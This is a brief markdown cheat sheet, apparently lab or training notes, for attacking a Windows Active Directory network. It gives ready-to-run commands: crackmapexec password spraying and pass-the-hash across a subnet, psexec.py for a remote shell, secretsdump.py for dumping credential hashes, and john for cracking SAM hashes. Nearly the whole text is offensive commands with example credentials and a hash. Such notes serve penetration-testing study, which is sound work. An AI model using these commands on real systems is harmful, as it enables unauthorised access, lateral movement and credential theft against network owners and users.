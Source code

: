 ## crackmapexec

Use crackmapexec to pass the password around the network and see what other machines include this account

```bash
example: crackmapexec smb 192.168.16.0/24 -u fcastle -d MARVEL.local -p Password1
Usage: crackmapexec smb [ ip/CIDR] -u [username] -d [domain] -p [password]
```
### Pass the Hash
```bash
crackmapexec smb 192.168.16.0/24 -u "Frank Castle" -H 64f12cddaa88057e06a81b54e73b949b --local-auth
```

### psexec
You can use this command to get a quick easy shell sometimes it works sometimes it doesn't

```bash
example: psexec.py marvel/fcastle:Password1@192.168.16.139
usage: psexec.py domain/username:password@[IP]
```

### secretsdump

Use this to dump hashes and maybe pass them around
```bash
example: secretsdump.py marvel/fcastle:Password1@192.168.16.129
usage: secretsdump.py domain/username:password@[IP]
```


cracking sam hashes
```bash
john hash.txt --format=NT --wordlist=/path/to/file
```

